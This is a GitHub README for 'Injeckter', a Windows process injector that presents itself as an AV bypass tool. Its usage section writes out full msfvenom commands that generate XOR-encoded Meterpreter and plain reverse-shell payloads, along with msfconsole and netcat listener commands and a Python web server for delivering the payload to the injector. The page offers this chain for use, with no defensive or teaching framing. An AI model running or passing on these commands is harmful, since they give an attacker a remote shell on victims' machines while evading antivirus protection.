 <!-- PROJECT SHIELDS -->
[![Build Status][build-shield]]()
[![Contributors][contributors-shield]]()
[![MIT License][license-shield]][license-url]


<!-- PROJECT LOGO -->
<br />
<p align="center">
  <a href="https://github.com/kenfinger/Injeckter">
    <img src="logo.png" alt="Logo" width="80" height="80">
  </a>

  <h3 align="center">Injeckter</h3>

  <p align="center">
    A Process Injector and AV Bypass program for Windows
    <br />
    <br />
    ·
    <a href="https://github.com/kenfinger/Injeckter/issues">Report Bug</a>
    ·
    <a href="https://github.com/kenfinger/Injeckter/issues">Request Feature</a>
  </p>
</p>



<!-- ABOUT THE PROJECT -->
## About The Project

[![Product Name Screen Shot][product-screenshot]]

A Process Injector and AV Bypass program for Windows.


<!-- USAGE EXAMPLES -->
## Usage

EXAMPLE METERPRETER REVERSE SHELL:

Generate Payload:

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT> -f exe -e x64/xor_dynamic -b '\x00' -o <FILENAME>.exe

Setup Listener:

msfconsole -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set LHOST <IP_ADDRESS>; set LPORT <PORT>; set ExitOnSession false; exploit -j"

EXAMPLE NETCAT REVERSE SHELL:

Generate Payload:
  
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT> -f exe -e x64/xor_dynamic -b '\x00' -o <FILENAME>.exe

Setup Listener:

nc -nvlp <PORT>

FOR ALL PAYLOADS:

python3 -m http.server <PORT>
  
Enter payload URL in Injeckter text box, select or enter process, and click "Run".  



<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request



<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.



<!-- CONTACT -->
## Contact

Kerry Enfinger - kerry.enfinger@proton.me

Project Link: [https://github.com/kenfinger/Injeckter](https://github.com/kenfinger/Injeckter)


<!-- MARKDOWN LINKS & IMAGES -->
[build-shield]: https://img.shields.io/badge/build-passing-brightgreen.svg?style=flat-square
[contributors-shield]: https://img.shields.io/badge/contributors-1-orange.svg?style=flat-square
[license-shield]: https://img.shields.io/badge/license-MIT-blue.svg?style=flat-square
[license-url]: https://choosealicense.com/licenses/mit
[product-screenshot]: https://raw.githubusercontent.com/kenfinger/Injeckter/main/screenshot.png
